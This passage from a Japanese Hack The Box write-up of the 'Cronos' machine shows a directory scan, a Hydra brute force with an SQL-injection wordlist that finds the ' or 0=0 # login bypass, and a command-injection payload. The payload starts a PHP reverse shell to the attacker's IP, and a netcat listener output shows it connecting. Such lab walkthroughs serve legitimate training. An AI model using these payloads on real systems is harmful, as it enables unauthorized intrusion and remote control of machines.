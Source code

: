```
/.htaccess.php (Status: 403)
/config.php (Status: 200)
/index.php (Status: 200)
/logout.php (Status: 302)
/server-status (Status: 403)
/session.php (Status: 302)
/welcome.php (Status: 302)
===============================================================
2020/07/03 13:29:56 Finished
===============================================================

```

## hydraでbrute forceでloginを試みる

```
kali@kali:~$ hydra -L /usr/share/wfuzz/wordlist/Injections/SQL.txt -p pass admin.cronos.htb http-post-form "/index.php:username=^USER^&password=^PASS^:Your Login Name or Password is invalid" -f
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-07-03 13:52:56
[DATA] max 16 tasks per 1 server, overall 16 tasks, 125 login tries (l:125/p:1), ~8 tries per task
[DATA] attacking http-post-form://admin.cronos.htb:80/index.php:username=^USER^&password=^PASS^:Your Login Name or Password is invalid
[80][http-post-form] host: admin.cronos.htb   login: ' or 0=0 #   password: pass
[STATUS] attack finished for admin.cronos.htb (valid pair found)
1 of 1 target successfully completed, 1 valid password found
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2020-07-03 13:52:59

```

SQLi が通りそうです、

![スクリーンショット 2020-07-04 3.01.30.png](https://qiita-image-store.s3.ap-northeast-1.amazonaws.com/0/417600/fbad6a5d-04b2-a159-5432-aeeb07c5a097.png)

login 成功しました

## RCE

明らかに RCE が通りそうな匂いがしているので以下を入力して Execute!します

```
10.10.14.48;php -r '$sock=fsockopen("10.10.14.48",4242);exec("/bin/sh -i <&3 >&3 2>&3");'
```

```
kali@kali:~$ nc -lnvp 4242
listening on [any] 4242 ...
connect to [10.10.14.48] from (UNKNOWN) [10.10.10.13] 45382
/bin/sh: 0: can't access tty; job control turned off
$ 

```
